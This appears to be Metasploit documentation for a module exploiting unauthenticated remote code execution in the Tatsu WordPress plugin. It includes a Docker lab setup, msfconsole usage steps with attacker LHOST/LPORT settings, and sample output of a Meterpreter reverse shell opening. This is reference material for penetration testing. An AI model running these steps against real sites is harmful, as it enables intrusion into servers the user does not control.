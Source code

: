 ## Vulnerable Application

This module exploits unauthenticated remote code execution in Tatsu plugin for Wordpress. The vulnerable version is below 3.3.11.
The module upload malicious zip file containing PHP payload, which gets parsed and unzipped into Wordpress upload directory.
Then module will trigger the payload by sending request with payload directory as URI.
The vulnerable plugin is available [here](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip)

## Verification Steps


1. Install the application
1.1 Create `docker-compose.yml`
```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: ms
      WORDPRESS_DB_PASSWORD: supersecret
      WORDPRESS_DB_NAME: proof_of_concept
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: proof_of_concept
      MYSQL_USER: ms
      MYSQL_PASSWORD: supersecret
      MYSQL_ROOT_PASSWORD: supersecret
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
1.2 Download [plugin](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip)
1.3 Install the plugin in Wordpress admin portal

2. `msfconsole`
3. `use multi/http/wp_tatsu_rce`
4. `set RHOST [target IP]`
5. `set RPORT [target PORT]`
6. `set LHOST [attacker's IP]`
7. `set LPORT [attacker's port]`

## Options


## Scenarios


Vulnerable version is <= 3.3.11.

```
`msf exploit(multi/http/wp_tatsu_rce) > run
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Sending stage (40004 bytes) to 172.18.0.2
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 172.18.0.2:37718) at 2025-06-11 18:59:35 +0200
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer    : ff0d55ec29bf
OS          : Linux ff0d55ec29bf 6.12.10-76061203-generic #202412060638~1748542656~22.04~663e4dc SMP PREEMPT_DYNAMIC Thu M x86_64
Meterpreter : php/linux
meterpreter > 
```
